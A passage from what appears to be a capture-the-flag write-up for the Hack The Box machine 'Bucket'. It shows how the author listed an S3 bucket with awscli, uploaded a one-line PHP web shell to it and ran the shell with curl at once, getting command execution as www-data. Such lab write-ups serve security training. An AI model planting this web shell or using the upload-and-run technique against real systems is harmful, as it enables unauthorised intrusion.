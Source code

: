 As we know that we also have an **s3** running, enumerated some information about existing containers and blobs, where `adserver` was found (where we already knew due to the URL of the images listed), and confirmed what else is hosted in this bucket.

```bash
$ aws s3 ls \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
2021-02-26 11:48:02 adserver

$ aws s3 ls s3://adserver \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
                           PRE images/
2021-02-26 11:50:04       5344 index.html

$ aws s3 ls s3://adserver/images/ \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
2021-02-26 11:52:02      37840 bug.jpg
2021-02-26 11:52:02      51485 cloud.png
2021-02-26 11:52:02      16486 malware.png
```

## Initial Access

Once we have access to the s3 bucket and know which contents are available and how to use them, the first thing to do is to upload a reverse shell payload to the website and then proceed with enumeration. To keep things simple, I'll use the following PHP web shell:

```php
<?php system($_GET['cmd']); ?>
```

After creating the file, upload it to the bucket using `awscli`:

```bash
$ aws s3 cp ./exploit.php s3://adserver/ \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb
upload: ./exploit.php to s3://adserver/exploit.php                

$ aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb ls s3://adserver/              
                           PRE images/
2021-02-26 11:56:28         31 exploit.php
2021-02-26 11:56:02       5344 index.html
```

After trying to access it a few seconds later, noticed that the file was removed by another process. To circumvent this, made the execution call right after the upload command, running the command `id`, where I was able to confirm that this approach worked.

```bash
$ aws s3 cp ./exploit.php s3://adserver/ \
    --endpoint-url http://s3.bucket.htb --profile bucket.htb && curl -L http://bucket.htb/exploit.php?cmd=id
upload: ./exploit.php to s3://adserver/exploit.php                
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
